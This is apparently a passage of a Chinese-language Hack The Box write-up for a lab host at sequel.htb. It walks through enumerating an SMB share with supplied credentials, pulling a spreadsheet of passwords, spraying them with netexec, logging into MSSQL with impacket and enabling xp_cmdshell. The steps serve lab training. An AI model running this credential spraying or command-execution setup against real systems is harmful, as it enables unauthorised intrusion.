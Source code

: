 #### 发现Accounting Department 目录，枚举目录文件
```
smbmap -H 10.129.232.128 -u rose -p 'KxEPkKe6R8su' -r 'Accounting Department/'
smbclient //10.129.232.128/'Accounting Department' -U rose%'KxEPkKe6R8su' -c 'ls'
```

![Pasted image 20250724142727](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724142727.png)

#### 下载共享目录中的文件
```
smbclient //10.129.232.128/'Accounting Department' -U rose%'KxEPkKe6R8su'
```


#### 进入交互式 shell 后： 
```
smb: \> get accountis.xlsx
smb: \> quit # 退出
```



#### 获取到一些账号密码
![Pasted image 20250724143037](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724143037.png)

#### 将username和password分别保存为字典，进行SMB爆破

```
netexec smb 10.129.232.128 -u users.txt -p pass.txt
```

![Pasted image 20250724145352](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724145352.png)

**发现有效账号：oscar:86LxLBMgEWaKUnBG**

**通过之前的端口扫描，知道目标中开启了MSSQL服务，使用文件中的账号密码对尝试登录**

![Pasted image 20250724145733](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724145733.png)

**我们看到这是有效的，我们可以继续使用impack -mssqlclient连接到主机**

```
impacket-mssqlclient sequel.htb/'用户名:密码'@10.129.232.128
```

![Pasted image 20250724145916](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724145916.png)



**通过xp_cmdshell获取该主机权限**
-- 启用高级选项
sp_configure 'show advanced options', 1;
RECONFIGURE;
-- 启用 xp_cmdshell
sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
